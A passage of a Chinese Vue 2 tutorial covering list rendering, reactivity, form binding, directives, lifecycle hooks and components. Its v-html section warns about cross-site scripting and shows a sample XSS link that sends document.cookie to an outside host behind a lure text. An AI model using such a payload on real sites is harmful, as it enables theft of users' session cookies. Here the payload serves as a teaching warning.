          id: 4,
          name: "张三",
        },
      ],
    },
    methods: {
      del(index) {
        this.student.splice(index, 1);
      },
    },
    computed: {},
  });
</script>
```

:::
::: code-group-item 对象

```vue
<div id="app">
  <!--
  循环对象 o是对象中的每一项,k是对象中的每一项的键
  也可写第三个参数(o,k,i),i代表索引
  -->
  <p v-for="(o,k) in obj" :key="k">{{k}}----{{o}}</p>
</div>
<script>
  const vm = new Vue({
    el: "#app",
    data: {
      obj: {
        a: 111,
        b: 222,
        c: 333,
      },
    },
  });
</script>
```

:::
::: code-group-item 字符串

```vue
<div id="app">
  <p v-for="(v,i) in stu" :key="i">{{i}}----{{v}}</p>
</div>
<script>
  const vm = new Vue({
    el: "#app",
    data: {
      stu: "abcdefg",
    },
  });
</script>
```

:::
::: code-group-item 数字(循环指定次数)

```vue
<div id="app">
 <!--
  循环数字值是从1开始,到10结束
  下标是从0开始,到9结束
 -->
  <p v-for="(v,i) in 10" :key="i">{{i}}----{{v}}</p>
</div>
```

:::
::::
::: details 练习
实现下面表格的效果
要求：
1.使用v-for指令实现列表渲染
2.使用v-if指令实现条件渲染
3.使用v-bind指令实现属性绑定
4.使用v-on指令实现事件绑定
5.使用v-model指令实现双向数据绑定
6.使用计算属性实现全选和反选
7.在增加一个搜索功能,可以根据名字搜索学生 使用计算属性实现搜索功能
8.使用计算属性实现排序功能

:::
::: tip 
在Vue修改数组中的某个元素一定要用如下方法  
`push()` `pop()`  `unshift()`  `shift()`  `splice()`  `sort()`  `reverse()`  这几个方法被Vue重写了    
`Vue.set()`  或`vm.$set()`  
特别注意：`Vue.set()` 和 `vm.$set()` 不能给vm或vm的根数据对象（data等）添加属性  
下面的例子更新时的问题就不生效
```vue
<title>列表排序</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord">
  <button @click="sortType = 2">年龄升序</button>
  <button @click="sortType = 1">年龄降序</button>
  <button @click="sortType = 0">原顺序</button>
  <ul>
    <li v-for="(p,index) of filPersons" :key="p.id">
      {{p.name}}-{{p.age}}-{{p.sex}}
      <input type="text">
    </li>
  </ul>
</div>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      sortType: 0, // 0原顺序 1降序 2升序
      persons: [
        { id: '001', name: '马冬梅', age: 30, sex: '女' },
        { id: '002', name: '周冬雨', age: 31, sex: '女' },
        { id: '003', name: '周杰伦', age: 18, sex: '男' },
        { id: '004', name: '温兆伦', age: 19, sex: '男' }
      ]
    },
    computed: {
      filPersons() {
        const arr = this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1
        })
        //判断一下是否需要排序
        if (this.sortType) {
          arr.sort((p1, p2) => {
            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
          })
        }
        return arr
      }
    }
  })
</script>
```
vue是如何监测到数据更新，然后做数据劫持呢？  
下面模拟一个observer
```js
let data = {
  name: '张三',
  address: '郑州',
}

function Observer(obj) {
  // 汇总对象中所有的属性形成一个数组
  const keys = Object.keys(obj)
  // 遍历
  keys.forEach((k) => {
    Object.defineProperty(this, k, {
      get() {
        return obj[k]
      },
      set(val) {
        console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
        obj[k] = val
      }
    })
  })
}

// 创建一个监视的实例对象，用于监视data中属性的变化
const obs = new Observer(data)
console.log(obs)

// 准备一个vm实例对象
let vm = {}
vm._data = data = obs
```
原理  
1.  vue会监视data中所有层次的数据  
2.  如何监测对象中的数据？  
  通过setter实现监视，且要在new Vue()时就传入要监测的数据  
  
  对象创建后追加的属性，Vue默认不做响应式处理  
  
  如需给后添加的属性做响应式，请使用如下API  
  Vue.set(target,propertyName/index,value)  
  vm.$set(target,propertyName/index,value)  
3.  如何监测数组中的数据？  
  a.通过包裹数组更新元素的方法实现，本质就是做了两件事  
  b.调用原生对应的方法对数组进行更新  
  重新解析模板，进而更新页面
:::

### key的原理
key 的特殊 attribute 主要用在 Vue 的虚拟 DOM 算法，在新旧 nodes 对比时辨识 VNodes。如果不使用 key，Vue 会使用一种最大限度减少动态元素并且尽可能的尝试就地修改/复用相同类型元素的算法。而使用 key 时，它会基于 key 的变化重新排列元素顺序，并且会移除 key 不存在的元素。

有相同父元素的子元素必须有独特的 key。重复的 key 会造成渲染错误。

[详细参考此链接](https://juejin.cn/post/6844903895467032589)
## 获取表单数据
当收集表单数据时，v-model 的行为如下：

对于 `<input type="text"/>`，v-model 收集的是 value 值，即用户输入的内容就是 value 值。  
对于 `<input type="radio"/>`，v-model 收集的是 value 值，需要为标签配置 value 属性。  
对于 `<input type="checkbox"/>`：  
如果没有配置 value 属性，v-model 收集的是 checked 属性（勾选或未勾选，是布尔值）。  
如果配置了 value 属性：  
如果 v-model 的初始值不是数组，v-model 收集的是 checked 属性（勾选或未勾选，是布尔值）。  
如果 v-model 的初始值是数组，v-model 收集的是由各个被选中的项的 value 组成的数组。  
v-model 还有三个修饰符：  
  
    lazy：在失去焦点后再收集数据。  
    number：将输入的字符串转换为有效的数字。  
    trim：过滤输入内容首尾的空格。  
    以上是关于收集表单数据时，v-model 的基本行为和修饰符的介绍。  
```vue
<title>收集表单数据</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <form @submit.prevent="demo">
    账号：<input type="text" v-model.trim="userInfo.account"> <br /><br />
    密码：<input type="password" v-model="userInfo.password"> <br /><br />
    年龄：<input type="number" v-model.number="userInfo.age"> <br /><br />
    性别：
    男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
    女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br /><br />
    爱好：
    学习<input type="checkbox" v-model="userInfo.hobby" value="study">
    打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
    吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
    <br /><br />
    所属校区
    <select v-model="userInfo.city">
      <option value="">请选择校区</option>
      <option value="beijing">北京</option>
      <option value="shanghai">上海</option>
      <option value="shenzhen">深圳</option>
      <option value="wuhan">成都</option>
    </select>
    <br/><br/>
    其他信息：
    <textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
    <input type="checkbox" v-model="userInfo.agree">阅读并接受
    <a href="https://www.yuque.com/cessstudy">《用户协议》</a>
    <button>提交</button>
  </form>
</div>

<script type="text/javascript">

  new Vue({
    el: '#root',
    data: {
      userInfo: {
        account: '',
        password: '',
        age: 18,
        sex: 'female',
        hobby: [],
        city: 'beijing',
        other: '',
        agree: ''
      }
    },
    methods: {
      demo() {
        console.log(JSON.stringify(this.userInfo))
      }
    }
  })
</script>
```
## vue指令
### 内置指令
前面已经接触的指令总结：
* v-bind	单向绑定解析表达式，可简写为:
* v-model	双向数据绑定
* v-for		遍历数组 / 对象 / 字符串
* v-on		绑定事件监听，可简写为@
* v-show	条件渲染 (动态控制节点是否展示)
* v-if		条件渲染（动态控制节点是否存存在）
* v-else-if	条件渲染（动态控制节点是否存存在）
* v-else	条件渲染（动态控制节点是否存存在）

###  v-text 指令
作用：向其所在的节点中渲染文本内容 
与插值语法的区别：v-text会替换掉节点中的内容，{{xxx}}则不会，更灵活
```js
<title>v-text指令</title>
<div id="root">
  <div> 你好，{{name}}</div>
  <div v-text="name"></div>
  <div v-text="str"></div>
</div>
<script>
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>'
    }
  })
</script>
```
### v-html 指令
作用：  
v-html 指令用于向指定节点中渲染包含 HTML 结构的内容。它可以将一个包含 HTML 标签的字符串作为值，直接插入到节点中，实现动态渲染。  

与插值语法的区别：  

v-html 会替换掉节点中所有的内容，而 {{xxx}} 插值语法只会替换相应的文本内容，不会替换节点的其他内容。  
v-html 可以识别并渲染 HTML 结构，而 {{xxx}} 插值语法会将内容作为纯文本进行显示，不会解析其中的 HTML 标签。  
严重注意 v-html 有安全性问题！  

在网站上动态渲染任意的 HTML 是非常危险的，容易导致跨站脚本攻击（XSS）。  
一定要在可信的内容上使用 v-html，永远不要将用户提交的内容直接使用 v-html 渲染。  
请谨慎使用 v-html 指令，并确保验证和过滤用户输入，以防止安全漏洞。  
```js
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
### v-cloak 指令
v-cloak指令（没有值）  

本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性  

使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题  
```js
<title>v-cloak指令</title>

<style>
  [v-cloak] {
    display:none;
  }
</style>

<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>

// 够延迟5秒收到vue.js
<script type="text/javascript" src="./vue.js"></script>

<script type="text/javascript">
  console.log(1)
  new Vue({
    el:'#root',
    data:{name:'cess'}
  })
</script>
```
### v-once 指令
  v-once所在节点在初次动态渲染后，就视为静态内容了 

  以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能
```js
<title>v-once指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <h2 v-once>初始化的n值是: {{n}}</h2>
  <h2>当前的n值是: {{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  new Vue({ el: '#root', data: {n:1} })
</script>
```
###  v-pre 指令
1. 跳过v-pre所在节点的编译过程  
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译  
```vue
<title>v-pre指令</title>
<div id="root">
  <h2 v-pre>Vue其实很简单</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
<script type="text/javascript">
  new Vue({ el:'#root', data:{n:1} })
</script>
```

### 自定义指令
#### directives
定义语法:
::: tip 局部指令
```js
new Vue({															
  directives:{ 
    指令名:配置对象 
  }   
})

new Vue({															
  directives:{ 
    指令名:回调函数 
  }   
})
```
:::
::: tip 全局指令
```js
Vue.directive(指令名, 配置对象)
或
Vue.directive(指令名, 回调函数)


Vue.directive('fbind', {
    // 指令与元素成功绑定时（一上来）
    bind(element, binding) {	// element就是DOM元素，binding就是要绑定的
      element.value = binding.value
    },
    // 指令所在元素被插入页面时
    inserted(element, binding) {
      element.focus()
    },
    // 指令所在的模板被重新解析时
    update(element, binding) {
      element.value = binding.value
    }
})
```
示例：
```vue
<div id="app">
  <p v-add10="abc">{{123}}</p>
</div>
<script>
  const vm = new Vue({
    el: "#app",
    directives: {
      add10(el, binding) {
        console.log(el, binding);
        el.innerHTML = binding.value * 10;
      },
    },
    data: {
      abc: "123",
    },
  });
</script>
```
配置对象中常用的三个回调函数是：  

bind(element, binding): 当指令与元素成功绑定时调用。在这个回调函数中，你可以访问到绑定的 DOM 元素 element 和指令绑定的对象 binding。binding 对象包含以下属性：name、value、oldValue、expression、arg、modifiers。这个回调函数适合用于初始化一些数据或操作。  

inserted(element, binding): 当指令所在元素被插入页面时调用。在这个回调函数中，你可以执行一些在元素插入页面后需要进行的操作。同样，你可以访问到绑定的 DOM 元素 element 和指令绑定的对象 binding。  

update(element, binding): 当指令所在模板结构被重新解析时调用。这个回调函数会在指令的相关数据发生变化时被触发，可以用来更新元素的状态或响应数据的变化。同样，你可以访问到绑定的 DOM 元素 element 和指令绑定的对象 binding。  

需要注意的是，在指令定义时不需要加 v- 前缀，但在使用指令时需要在指令名前加上 v- 前缀。另外，如果指令名是多个单词，应使用 kebab-case 命名方式，而不要使用 camelCase 命名方式。  
:::

## Vue生命周期

生命周期  
  
a. 又名生命周期回调函数、生命周期函数、生命周期钩子  
b. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数  
c. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的  
d. 生命周期函数中的 this 指向是 vm 或组件实例对象  

```vue
<div id="root">
  <h2 v-if="a">你好啊</h2>
  <h2 :style="{opacity}">我是一个逐渐消失的字</h2>
</div>

<script type="text/javascript">
  var vm = new Vue({
    el: "#root",
    data: {
      a: false,
      opacity: 1,
    },
    methods: {},
    // 🔴Vue 完成模板的解析并把初始的真实 DOM 元素放入页面后（挂载完毕）调用 mounted
    mounted() {
      console.log("mounted", this);
      setInterval(() => {
        this.opacity -= 0.01;
        if (this.opacity <= 0) this.opacity = 1;
      }, 16);
    },
  });

  // 通过外部的定时器实现（不推荐）
  // setInterval(() => {
  //   vm.opacity -= 0.01;
  //   if (vm.opacity <= 0) vm.opacity = 1;
  // }, 16);
</script>
```
### 生命周期图示

```vue

	<div id="root" :x="n">
		<h2 v-text="n"></h2>
		<h2>当前的n值是：{{ n }}</h2>
		<button @click="add">点我n+1</button>
		<button @click="bye">点我销毁vm</button>
	</div>

<script type="text/javascript">

	new Vue({
		el: '#root',
		// template:`
		// 	<div>
		// 		<h2>当前的n值是：{{n}}</h2>
		// 		<button @click="add">点我n+1</button>
		// 	</div>
		// `,
		data: {
			n: 1
		},
		methods: {
			add() { console.log('add')
				this.n++
			},
			bye() {
				console.log('bye')
				this.$destroy()
			}
		},
		watch: {
			n() {
				console.log('n变了')
			}
		},
		beforeCreate() {console.log('beforeCreate')},
		created() {console.log('created')},
		beforeMount() {console.log('beforeMount')},
		mounted() {console.log('mounted')},
		beforeUpdate() {console.log('beforeUpdate')},
		updated() {console.log('updated')},
		beforeDestroy() {console.log('beforeDestroy')},
		destroyed() {console.log('destroyed')},
	})
</script>
```
::: tip 总结生命周期
常用的生命周期钩子  

a. mounted：用于在实例挂载到 DOM 后进行初始化操作，例如发送 AJAX 请求、启动定时器、绑定自定义事件、订阅消息等。  

b. beforeDestroy：用于在实例销毁之前执行一些收尾工作，例如清除定时器、解绑自定义事件、取消订阅消息等。  

关于销毁 Vue 实例  

a. 销毁后，在 Vue 开发者工具中将无法看到任何关于该实例的信息。  

b. 销毁后，自定义事件会失效，但原生 DOM 事件仍然有效。  

c. 一般情况下，在 beforeDestroy 钩子中不应该再操作数据，因为此时不再触发更新流程。
:::
```vue
<div id="root">
  <h2 :style="{opacity}">欢迎学习Vue</h2>
  <button @click="opacity = 1">透明度设置为1</button>
  <button @click="stop">点我停止变换</button>
</div>

<script type="text/javascript">
  
  new Vue({
    el: '#root',
    data: {
      opacity: 1
    },
    methods: {
      stop() {
        this.$destroy()
      }
    },
    // Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
    mounted() {
      console.log('mounted', this)
      this.timer = setInterval(() => {
        console.log('setInterval')
        this.opacity -= 0.01
        if (this.opacity <= 0) this.opacity = 1
      }, 16)
    },
    beforeDestroy() {
      clearInterval(this.timer)
      console.log('vm即将销毁')
    },
  })
</script>
```
## vue组件


::: tip  模块
a. 理解：向外提供特定功能的 JavaScript 程序，通常是一个单独的 JavaScript 文件。

b. 为什么：因为 JavaScript 文件数量众多且复杂，需要将功能进行拆分和封装。

c. 作用：实现代码的复用，简化 JavaScript 的编写，并提高 JavaScript 的运行效率。

组件

a. 定义：组件是实现特定功能的代码和资源的集合，包括 HTML、CSS、JavaScript、图像等。

b. 为什么：当一个界面的功能非常复杂时，将其拆分为多个组件可以提高代码的可维护性和重用性。

c. 作用：实现代码的复用，简化项目编码，并提高运行效率。

模块化

当应用中的 JavaScript 代码都以模块的方式进行编写时，就称之为模块化应用。模块化使得代码更易于管理和组织，可以按需加载和复用代码模块。

组件化

当应用中的功能通过多个组件来实现时，就称之为组件化应用。组件化开发模式使得每个组件都具备独立的功能和样式，可以灵活地组合和重用，提高了项目的开发效率和可维护性。

非单文件组件  
非单文件组件：一个文件中包含有 n 个组件  
单文件组件：一个文件中只包含有 1 个组件  
:::

### 基本使用
::: tip Vue中使用组件的三大步骤：

1. 定义组件： 使用Vue.extend(options)创建组件，其中options和new Vue(options)时传入的options几乎一样，但也有一些区别。  
  a. 不需要写el，因为最终所有的组件都要经过一个vm的管理，由vm中的el属性决定服务哪个容器。  
  b. data必须写成函数，避免组件被复用时，数据存在引用关系。  
2. 注册组件：  
  局部注册：在new Vue()的时候，在options中传入components选项来注册局部组件。  
  全局注册：使用Vue.component('组件名', 组件)来注册全局组件。  
3. 使用组件：  
  编写组件标签，如 <school></school>，即可在模板中使用自定义的组件。
:::
```vue
<div id="root">
  <h2>{{msg}}</h2><hr>
  <!-- 第三步：编写组件标签 -->
  <school></school><hr>
  <student></student><hr>
  <hello></hello><hr>
</div>

<div id="root2">
  <hello></hello>
</div>
<script type="text/javascript">

  //第一步：创建school组件
  const school = Vue.extend({
    // el:'#root', //组件定义时，一定不要写el配置项，
    // 因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器
    template: `
				<div class="demo">
					<h3>学校名称：{{schoolName}}</h3>
					<h3>学校地址：{{address}}</h3>
					<button @click="showName">点我提示学校名</button>	
  			</div>
			`,
    data() {
      return {
        schoolName: '清华大学',
        address: '北京海淀'
      }
    },
    methods: {
      showName() {
        alert(this.schoolName)
      }
    },
  })
  
  //第一步：创建student组件
  const student = Vue.extend({
    template: `
				<div>
					<h3>学生姓名：{{studentName}}</h3>
					<h3>学生年龄：{{age}}</h3>
  			</div>
			`,
    data() {
      return {
        studentName: '张三',
        age: 18
      }
    }
  })

  //第一步：创建hello组件
  const hello = Vue.extend({
    template: `
				<div>	
					<h3>你好啊！{{name}}</h3>
  			</div>
			`,
    data() {
      return {
        name: 'cess'
      }
    }
  })
  //第二步：全局注册组件
  Vue.component('hello', hello)

  //创建vm
  new Vue({
    el: '#root',
    data: {
      msg: '你好啊！'
    },
    //第二步：注册组件（局部注册）
    components: {
      school,
      student
    }
  })

  new Vue({
    el: '#root2',
  })
</script>
```
::: warning 注意事项
关于组件名：

一个单词组成：

第一种写法（首字母小写）：school
第二种写法（首字母大写）：School
多个单词组成：

第一种写法（kebab-case 命名）：my-school
第二种写法（CamelCase 命名）：MySchool（需要Vue脚手架支持）
备注：

组件名尽可能避免使用HTML中已有的元素名称，例如：h2、H2都不行。
可以使用name配置项指定组件在开发者工具中显示的名字。
关于组件标签：

第一种写法：<school></school>
第二种写法：<school/>（需要Vue脚手架支持）
备注：使用第二种写法<school/>时，如果不使用脚手架，会导致后续组件不能正常渲染。

简写方式：
可以将const school = Vue.extend(options)简写为const school = options，因为父组件引入子组件时会自动创建实例。
:::
### 组件的嵌套

```vue 
<div id="root"></div>

<script type="text/javascript">
  Vue.config.productionTip = false

  //定义student组件
  const student = Vue.extend({
    name: 'student',
    template: `
				<div>
					<h4>学生姓名：{{name}}</h4>	
					<h4>学生年龄：{{age}}</h4>	
  			</div>
			`,
    data() {return {name: '尚硅谷',age: 18}}
  })

  //定义school组件
  const school = Vue.extend({
    name: 'school',
    template: `
				<div>
					<h3>学校名称：{{name}}</h3>	
					<h3>学校地址：{{address}}</h3>	
					<student></student>
 			  </div>
			`,
    data() {return {name: '清华大学',address: '北京'}},
    //注册组件（局部）
    components: { student }
  })

  //定义hello组件
  const hello = Vue.extend({
    template: `<h3>{{msg}}</h3>`,
    data() {
      return {msg: '欢迎来到清华上学！'}
    }
  })

  //定义app组件
  const app = Vue.extend({
    template: `
				<div>	
					<hello></hello>
					<school></school>
  			</div>
			`,
    components: { school, hello }
  })

  //创建vm
  new Vue({
    el: '#root',
    template: '<app></app>',
    //注册组件（局部）
    components: { app }
  })
</script>
```
### VueComponent
::: tip 关于VueComponent：
a. school组件本质上是一个名为VueComponent的构造函数，由Vue.extend()生成。

b. 在使用<school/>或<school></school>的标签时，Vue会解析并帮助我们创建school组件的实例对象，即相当于执行了new VueComponent(options)。

c. 每次调用Vue.extend时，都会返回一个全新的VueComponent，因此不同的组件是不同的对象。

d. 关于this指向：

组件配置中的data函数、methods中的函数、watch中的函数、computed中的函数，它们的this指向都是VueComponent的实例对象。
在new Vue(options)中配置的data函数、methods中的函数、watch中的函数、computed中的函数，它们的this指向是Vue的实例对象。  
e. 简写方式：

VueComponent的实例对象简称为vc（组件实例对象）
Vue的实例对象简称为vm
```vue
<div id="root">
  <school></school>
  <hello></hello>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false

  // 定义school组件
  const school = Vue.extend({
    name: 'school',
    template: `
				<div>
					<h2>学校名称：{{name}}</h2>	
					<h2>学校地址：{{address}}</h2>	
					<button @click="showName">点我提示学校名</button>
  			</div>
			`,
    data() {return {name: '清华',address: '北京'}},
    methods: {showName() {console.log('showName', this)}},
  })

  const test = Vue.extend({
    template: `<span>test</span>`
  })

  // 定义hello组件
  const hello = Vue.extend({
    template: `
				<div>
					<h2>{{msg}}</h2>
					<test></test>	
  			</div>
			`,
    data() {return {msg: '你好啊！'}},
    components: { test }
  })

  // console.log('@',school)
  // console.log('#',hello)

  // 创建vm
  const vm = new Vue({
    el: '#root',
    components: { school, hello }
  })
</script>
```
:::

::: tip 
1. 一个重要的内置关系：VueComponent.prototype.__proto__ === Vue.prototype
2. 为什么要有这个关系：让组件实例对象vc可以访问到 Vue原型上的属性、方法

:::
## 单文件组件
* School.vue
```vue 
<template>
    <div id='Demo'>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName">点我提示学校名</button>
    </div>
</template>

<script>
    export default {
        name:'School',
        data() {
            return {
                name:'清华',
                address:'北京'
            }
        },
        methods: {
            showName(){
                alert(this.name)
            }
        },
    }
</script>

<style>
    #Demo{
        background: orange;
    }
</style>
```
* Student.vue
```vue
<template>
    <div>
        <h2>学生姓名：{{name}}</h2>
        <h2>学生年龄：{{age}}</h2>
    </div>
</template>

<script>
    export default {
        name:'Student',
        data() {
            return {
                name:'张三',
                age:20
            }
        },
    }
</script>
```
* App.vue
```vue
<template>
    <div>
        <School></School>
        <Student></Student>
    </div>
</template>

<script>
    import School from './School.vue'
    import Student from './Student.vue'

    export default {
        name:'App',
        components:{
            School,
            Student
        }
    }
</script>
```
* main.js
```js
import App from './App.vue'

new Vue({
    template:`<App></App>`,
    el:'#root',
    components:{App}
})
```
* index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>单文件组件练习</title>
</head>
<body>
    <div id="root"></div>
    <script src="../../js/vue.js"></script>
    <script src="./main.js"></script>
</body>
</html>
```